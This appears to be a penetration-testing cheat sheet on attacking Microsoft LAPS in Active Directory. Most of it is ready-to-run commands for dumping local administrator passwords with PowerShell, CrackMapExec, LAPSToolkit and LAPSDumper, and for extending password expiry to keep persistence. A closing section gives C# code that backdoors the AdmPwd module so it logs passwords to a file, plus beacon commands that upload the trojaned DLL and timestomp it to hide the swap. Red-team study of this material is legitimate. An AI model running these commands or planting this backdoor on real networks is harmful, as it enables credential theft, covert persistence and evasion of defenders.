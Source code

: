 ```yaml
---
description: Local Administrator Password Solution
---
```


# LAPS

* [https://adsecurity.org/?p=1790](https://adsecurity.org/?p=1790)




## Enabled?

Check locally:

```
PS > gc "c:\program files\LAPS\CSE\Admpwd.dll"
PS > Get-FileHash "c:\program files\LAPS\CSE\Admpwd.dll"
PS > Get-AuthenticodeSignature "c:\program files\LAPS\CSE\Admpwd.dll"
```

Check in LDAP:

```
PV3 > Get-DomainObject "CN=ms-Mcs-AdmPwd,CN=Schema,CN=Configuration,DC=megacorp,DC=local"
PV3 > Get-DomainObject "CN=ms-Mcs-AdmPwdExpirationTime,CN=Schema,CN=Configuration,DC=megacorp,DC=local"
```

Extract SAM with CME and compare admins' hashes:

```
$ for ip in `cat smb.txt`; do cme smb $ip -u snovvcrash -p 'Passw0rd!' --sam 2>/dev/null | grep -av '(' | grep -ai -e admin -e админ; sleep 1; done
```




## Get Passwords



### PowerShell


#### ActiveDirectory

Query LDAP for AD computer objects with their passwords and its expiration date:

```
PS > $laps = Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd,ms-Mcs-AdmPwdExpirationTime -Server DC01 | ? {$_.'ms-Mcs-AdmPwd'} | select Name,ms-Mcs-AdmPwd,@{label="ExpDate";Expression={([datetime]::FromFileTime([convert]::ToInt64($_.'ms-Mcs-AdmPwdExpirationTime')))}}
PS > $laps | select -First 10
```

Check the name of enabled local administrators on a remote machine:

```
PS > Get-CimInstance -ComputerName SRV01 -ClassName Win32_Group -Filter "Name='Administrators'" | Get-CimAssociatedInstance -Association Win32_GroupUser | ? {$_.Disabled -eq $false} | fl
```

Change LAPS password (just zero the expiration time attribute):

```
PS > Get-ADComputer PC01 -Properties ms-MCS-AdmPwdExpirationTime| % {Set-ADComputer -Identity $_ -Replace @{"ms-MCS-AdmPwdExpirationTime" = "0"}}
```


#### Get-LAPSPasswords

* [https://www.netspi.com/blog/technical/network-penetration-testing/running-laps-around-cleartext-passwords/](https://www.netspi.com/blog/technical/network-penetration-testing/running-laps-around-cleartext-passwords/)
* [https://github.com/kfosaaen/Get-LAPSPasswords](https://github.com/kfosaaen/Get-LAPSPasswords)

```
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
PS > Get-LAPSPasswords -DomainController 10.10.13.37 -Credential $cred | fl
```


#### LAPSToolkit

* [https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps](https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps)
* [https://github.com/leoloobeek/LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

Enumerate LAPS groups and permissions:

```
PS > $lapsGroups = Find-LAPSDelegatedGroups
PS > $lapsRights = Find-AdmPwdExtendedRights
```

Get passwords:

```
PS > Get-LAPSComputers
```



### CrackMapExec

* [https://github.com/T3KX/Crackmapexec-LAPS](https://github.com/T3KX/Crackmapexec-LAPS)
* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/laps.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/laps.py)

```
$ cme ldap <DC_IP> -u snovvcrash -p 'Passw0rd!' -M laps
```



### LAPSDumper

* [https://github.com/n00py/LAPSDumper](https://github.com/n00py/LAPSDumper)

```
$ python laps.py -d megacorp.local -u snovvcrash -p 'Passw0rd!'
$ python laps.py -d megacorp.local -l DC01.megacorp.local -u snovvcrash -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889
```




## Persistence

Increase the expiration time of a compromised computer object's `ms-mcs-admpwdexpirationtime` property value:

```
PV3 > Get-DomainObject -Identity SRV01 -Properties ms-mcs-admpwdexpirationtime
PV3 > Set-DomainObject -Identity SRV01 -Set @{"ms-mcs-admpwdexpirationtime"="<EPOCH>"}
```




## Backdoor

Recompile [admpwd](https://github.com/GreyCorbel/admpwd) having added some evil code [here](https://github.com/GreyCorbel/admpwd/blob/1461172b2002ce37e31c221f6532a8ce7de1a295/Main/AdmPwd.PS/Main.cs#L140):

```csharp
PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);
var line = $"{pi.ComputerName} : {pi.Password}";
System.IO.File.AppendAllText(@"C:\Temp\LAPS.txt", line);
WriteObject(pi);
```

Replace the original `AdmPwd.PS.dll` assembly with a newly generated one and fix the timestamp:

```
beacon> cd C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS
beacon> upload AdmPwd.PS.dll
beacon> timestomp AdmPwd.PS.dll AdmPwd.PS.psd1
beacon> ls
```

